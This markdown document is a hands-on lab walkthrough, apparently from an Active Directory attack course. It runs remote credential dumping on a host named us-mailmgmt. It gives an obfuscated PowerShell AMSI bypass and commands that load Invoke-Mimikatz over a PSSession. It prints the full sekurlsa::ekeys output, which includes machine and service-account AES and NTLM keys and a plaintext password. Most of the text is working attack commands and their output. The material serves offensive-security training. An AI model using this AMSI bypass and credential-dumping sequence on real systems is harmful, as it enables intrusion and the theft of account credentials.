


# Hands-on 9: Mimikatz

- [Hands-on 9: Mimikatz](#hands-on-9-mimikatz)

---

## Task

Extract credentials of interactive logon sessions and service accounts from `us-mailmgmt`.

<br/>

---

## Extract credentials of interactive logon sessions and service accounts from `us-mailmgmt`

First use `InviShell`:

```
cd C:\AD\Tools\InviShell; .\RunWithRegistryNonAdmin.bat
```

<br/>

Establish a PSSession:

```
$passwd = ConvertTo-SecureString "03/%Bg}o&4fGEz" -AsPlainText -Force;
$creds = New-Object System.Management.Automation.PSCredential("us-mailmgmt\administrator", $passwd);
$mailmgmt = New-PSSession -ComputerName us-mailmgmt.us.techcorp.local -Credential $creds;
```

<br/>

Then perform AMSI bypass using `Invoke-Command`:

```
Invoke-Command -ScriptBlock {[Ref].Assembly.GetType('System.Management.Automation.'+$([SYsTeM.NET.WEbutILiTy]::HTmLdECOde('&#65;&#109;&#115;&#105;'))+'Utils').GetField(''+$([sYStEm.NET.WeBUTILiTY]::hTmlDeCODE('&#97;&#109;&#115;&#105;'))+'InitFailed',$([cHAr](156/2)+[cHar](119-8)+[cHaR](138-28)+[char]([bytE]0x50)+[cHar](35+82)+[chAr]([bYTe]0x62)+[chAr](203-95)+[ChAR](105)+[cHar]([BYte]0x63)+[chaR]([ByTe]0x2C)+[Char](1909/23)+[char]([bYtE]0x74)+[chAr]([bYTe]0x61)+[CHAR](77+39)+[CHaR](3465/33)+[CHAr](84+15))).SetValue($null,$true);} -Session $mailmgmt
```

<br/>

Remotely import `Invoke-Mimikatz.ps1`:

```
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $mailmgmt
```

<br/>

Enter the PSSession:

```
Enter-PSSession $mailmgmt
```

  

<br/>

Finally perform a credential dump using `Invoke-Mimikatz`:

```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

  

Full output:

```
[us-mailmgmt.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

  .#####.   mimikatz 2.2.0 (x64) #18362 Oct 30 2019 13:01:25
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::ekeys

Authentication Id : 0 ; 39831 (00000000:00009b97)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:14 AM
SID               : S-1-5-90-0-1

         * Username : US-MAILMGMT$
         * Domain   : us.techcorp.local
         * Password : B_m3`Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0*Vmg_9qyrcccQbdG-PLPw*PzNoPu`n$(*$2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES
         * Key List :
           aes256_hmac       2a03dcfd67a30b4565690498ebb68db8de3ff27473cc7ad3590fc8f8a27335f5
           aes128_hmac       65c0b72504e134531fe37b3e761b92a0
           rc4_hmac_nt       6e1c353761fff751539e175a8393a941
           rc4_hmac_old      6e1c353761fff751539e175a8393a941
           rc4_md4           6e1c353761fff751539e175a8393a941
           rc4_hmac_nt_exp   6e1c353761fff751539e175a8393a941
           rc4_hmac_old_exp  6e1c353761fff751539e175a8393a941

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : US-MAILMGMT$
Domain            : US
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:11 AM
SID               : S-1-5-18

         * Username : us-mailmgmt$
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       f12a400718bcdd5fedec676974175e8fc8921c8401ae70ba1f13b4062c874103
           rc4_hmac_nt       6e1c353761fff751539e175a8393a941
           rc4_hmac_old      6e1c353761fff751539e175a8393a941
           rc4_md4           6e1c353761fff751539e175a8393a941
           rc4_hmac_nt_exp   6e1c353761fff751539e175a8393a941
           rc4_hmac_old_exp  6e1c353761fff751539e175a8393a941

Authentication Id : 0 ; 126241 (00000000:0001ed21)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:26 AM
SID               : S-1-5-90-0-2

         * Username : US-MAILMGMT$
         * Domain   : us.techcorp.local
         * Password : B_m3`Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0*Vmg_9qyrcccQbdG-PLPw*PzNoPu`n$(*$2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES
         * Key List :
           aes256_hmac       2a03dcfd67a30b4565690498ebb68db8de3ff27473cc7ad3590fc8f8a27335f5
           aes128_hmac       65c0b72504e134531fe37b3e761b92a0
           rc4_hmac_nt       6e1c353761fff751539e175a8393a941
           rc4_hmac_old      6e1c353761fff751539e175a8393a941
           rc4_md4           6e1c353761fff751539e175a8393a941
           rc4_hmac_nt_exp   6e1c353761fff751539e175a8393a941
           rc4_hmac_old_exp  6e1c353761fff751539e175a8393a941

Authentication Id : 0 ; 126225 (00000000:0001ed11)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:26 AM
SID               : S-1-5-90-0-2

         * Username : US-MAILMGMT$
         * Domain   : us.techcorp.local
         * Password : B_m3`Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0*Vmg_9qyrcccQbdG-PLPw*PzNoPu`n$(*$2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES
         * Key List :
           aes256_hmac       2a03dcfd67a30b4565690498ebb68db8de3ff27473cc7ad3590fc8f8a27335f5
           aes128_hmac       65c0b72504e134531fe37b3e761b92a0
           rc4_hmac_nt       6e1c353761fff751539e175a8393a941
           rc4_hmac_old      6e1c353761fff751539e175a8393a941
           rc4_md4           6e1c353761fff751539e175a8393a941
           rc4_hmac_nt_exp   6e1c353761fff751539e175a8393a941
           rc4_hmac_old_exp  6e1c353761fff751539e175a8393a941

Authentication Id : 0 ; 86146 (00000000:00015082)
Session           : Service from 0
User Name         : exchangeuser
Domain            : US
Logon Server      : US-DC
Logon Time        : 1/8/2021 1:57:20 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1137

         * Username : exchangeuser
         * Domain   : US.TECHCORP.LOCAL
         * Password : NopeStillG0tNomail!!
         * Key List :
           aes256_hmac       9f0f4b3ae4699e9db821dd0e40f3f52f755dabd1e3434c5a7bad6d35cd8e4afa
           aes128_hmac       44cf7297d86f224e09e66cd78298e231
           rc4_hmac_nt       1ef08776e2de6e9d9062ff9c81ff3602
           rc4_hmac_old      1ef08776e2de6e9d9062ff9c81ff3602
           rc4_md4           1ef08776e2de6e9d9062ff9c81ff3602
           rc4_hmac_nt_exp   1ef08776e2de6e9d9062ff9c81ff3602
           rc4_hmac_old_exp  1ef08776e2de6e9d9062ff9c81ff3602

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : US-MAILMGMT$
Domain            : US
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:13 AM
SID               : S-1-5-20

         * Username : us-mailmgmt$
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       f12a400718bcdd5fedec676974175e8fc8921c8401ae70ba1f13b4062c874103
           rc4_hmac_nt       6e1c353761fff751539e175a8393a941
           rc4_hmac_old      6e1c353761fff751539e175a8393a941
           rc4_md4           6e1c353761fff751539e175a8393a941
           rc4_hmac_nt_exp   6e1c353761fff751539e175a8393a941
           rc4_hmac_old_exp  6e1c353761fff751539e175a8393a941

Authentication Id : 0 ; 22300 (00000000:0000571c)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:12 AM
SID               : S-1-5-96-0-0

         * Username : US-MAILMGMT$
         * Domain   : us.techcorp.local
         * Password : B_m3`Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0*Vmg_9qyrcccQbdG-PLPw*PzNoPu`n$(*$2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES
         * Key List :
           aes256_hmac       2a03dcfd67a30b4565690498ebb68db8de3ff27473cc7ad3590fc8f8a27335f5
           aes128_hmac       65c0b72504e134531fe37b3e761b92a0
           rc4_hmac_nt       6e1c353761fff751539e175a8393a941
           rc4_hmac_old      6e1c353761fff751539e175a8393a941
           rc4_md4           6e1c353761fff751539e175a8393a941
           rc4_hmac_nt_exp   6e1c353761fff751539e175a8393a941
           rc4_hmac_old_exp  6e1c353761fff751539e175a8393a941

Authentication Id : 0 ; 124661 (00000000:0001e6f5)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:26 AM
SID               : S-1-5-96-0-2

         * Username : US-MAILMGMT$
         * Domain   : us.techcorp.local
         * Password : B_m3`Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0*Vmg_9qyrcccQbdG-PLPw*PzNoPu`n$(*$2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES
         * Key List :
           aes256_hmac       2a03dcfd67a30b4565690498ebb68db8de3ff27473cc7ad3590fc8f8a27335f5
           aes128_hmac       65c0b72504e134531fe37b3e761b92a0
           rc4_hmac_nt       6e1c353761fff751539e175a8393a941
           rc4_hmac_old      6e1c353761fff751539e175a8393a941
           rc4_md4           6e1c353761fff751539e175a8393a941
           rc4_hmac_nt_exp   6e1c353761fff751539e175a8393a941
           rc4_hmac_old_exp  6e1c353761fff751539e175a8393a941

Authentication Id : 0 ; 39805 (00000000:00009b7d)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:14 AM
SID               : S-1-5-90-0-1

         * Username : US-MAILMGMT$
         * Domain   : us.techcorp.local
         * Password : B_m3`Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0*Vmg_9qyrcccQbdG-PLPw*PzNoPu`n$(*$2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES
         * Key List :
           aes256_hmac       2a03dcfd67a30b4565690498ebb68db8de3ff27473cc7ad3590fc8f8a27335f5
           aes128_hmac       65c0b72504e134531fe37b3e761b92a0
           rc4_hmac_nt       6e1c353761fff751539e175a8393a941
           rc4_hmac_old      6e1c353761fff751539e175a8393a941
           rc4_md4           6e1c353761fff751539e175a8393a941
           rc4_hmac_nt_exp   6e1c353761fff751539e175a8393a941
           rc4_hmac_old_exp  6e1c353761fff751539e175a8393a941

Authentication Id : 0 ; 22258 (00000000:000056f2)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:12 AM
SID               : S-1-5-96-0-1

         * Username : US-MAILMGMT$
         * Domain   : us.techcorp.local
         * Password : B_m3`Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0*Vmg_9qyrcccQbdG-PLPw*PzNoPu`n$(*$2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES
         * Key List :
           aes256_hmac       2a03dcfd67a30b4565690498ebb68db8de3ff27473cc7ad3590fc8f8a27335f5
           aes128_hmac       65c0b72504e134531fe37b3e761b92a0
           rc4_hmac_nt       6e1c353761fff751539e175a8393a941
           rc4_hmac_old      6e1c353761fff751539e175a8393a941
           rc4_md4           6e1c353761fff751539e175a8393a941
           rc4_hmac_nt_exp   6e1c353761fff751539e175a8393a941
           rc4_hmac_old_exp  6e1c353761fff751539e175a8393a941
```

Note the newly discovered credential:
- User: `us\exchangeuser`
- Password: `NopeStillG0tNomail!!`
- AES256: `9f0f4b3ae4699e9db821dd0e40f3f52f755dabd1e3434c5a7bad6d35cd8e4afa`
- NTLM: `1ef08776e2de6e9d9062ff9c81ff3602`
